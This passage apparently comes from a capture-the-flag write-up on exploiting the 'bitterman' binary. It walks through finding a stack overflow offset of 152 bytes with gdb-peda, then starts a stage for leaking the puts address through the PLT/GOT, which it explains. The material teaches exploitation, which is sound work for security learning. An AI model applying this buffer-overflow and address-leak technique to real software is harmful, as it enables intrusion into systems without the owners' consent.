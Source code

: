 ```asm
0024| 0x7fffffffde60 ("AuAAXAAvAAYAAwAAZAAxAAyA\n8\255?\004\240\034Ґ\005@")
0032| 0x7fffffffde68 ("AAYAAwAAZAAxAAyA\n8\255?\004\240\034Ґ\005@")
0040| 0x7fffffffde70 ("ZAAxAAyA\n8\255?\004\240\034Ґ\005@")
0048| 0x7fffffffde78 --> 0xd21ca0043fad380a 
0056| 0x7fffffffde80 --> 0x400590 (<_start>:	xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004007e1 in main (argc=0x1, argv=0x7fffffffdf28) at main.c:28
28	main.c: No such file or directory.
```

Look, at **RSP** register is full of our pattern, in 64-bit register we cant overwrite **RIP** straight away so let's see our stack **RSP**, the Stack Pointer points to our input, we need to fix the return address and inject our code but for that we need to know where overflow occurs. Doing similar from what we did earlier let's get started:-

```
gdb-peda$ x/xg $rsp
0x7fffffffde48:	0x7141415441417041
gdb-peda$ pattern offset 0x7141415441417041
8160875829899915329 found at offset: 152
```

* `x/xg` : This loads the memory address of **RSP** register in hex format and in 64-bit format.
* `pattern offset < value >` : This shows after how many bytes the overflow occured.

We get the overflow limit i.e. **152**.

# Stage 1: Leaking the address

First, as told earlier we need to get `put` address from the running process. First, we need leak address then we need to get the constant distance which means the offset for it after that we will get to execute our code.

Let's get `puts` using `objdump -D bitterman | grep puts` :-

```asm
400520:	ff 25 2a 07 20 00    	jmpq   *0x20072a(%rip)        # 600c50 <puts@GLIBC_2.2.5>
```

As you can see we have one address at the left and one i the right. Let m clarify this:-

***
PLT stands for Procedure Linkage Table which is, put simply, used to call external procedures/functions whose address isn't known in the time of linking, and is left to be resolved by the dynamic linker at run time.
GOT stands for Global Offsets Table and is similarly used to resolve addresses.The Global Offset Table (or GOT) is a section inside of programs that holds addresses of functions that are dynamically linked. As mentioned in the page on calling conventions, most programs don't include every function they use to reduce binary size. Instead, common functions (like those in libc) are "linked" into the program so they can be saved once on disk and reused by every program. 
***

